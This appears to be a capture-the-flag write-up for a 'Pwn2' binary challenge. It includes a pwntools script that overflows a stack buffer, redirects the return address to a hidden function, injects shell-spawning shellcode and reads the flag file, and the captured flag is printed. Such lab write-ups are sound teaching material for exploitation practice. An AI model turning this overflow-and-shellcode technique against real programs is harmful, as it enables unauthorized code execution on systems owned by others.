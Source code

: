 # Pwn2
### 📄 Description
I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?

### ⚙ How to run it
```bash
./pwn2
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

What we can do to retrieve the flag is overflowing the buffer `buffer`, overwriting `main()` return address to be `lol()` function entrypoint. We'll also need to provide shellcode where lol stack base will be.

```python
from pwn import *

context.binary = "./pwn2"

p = process()

p.send(b"A" * 44)
p.p32(context.binary.functions["lol"].address + 3)
p.sendline(asm(shellcraft.sh()))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
encryptCTF{N!c3_j0b_jump3R}
```
</details>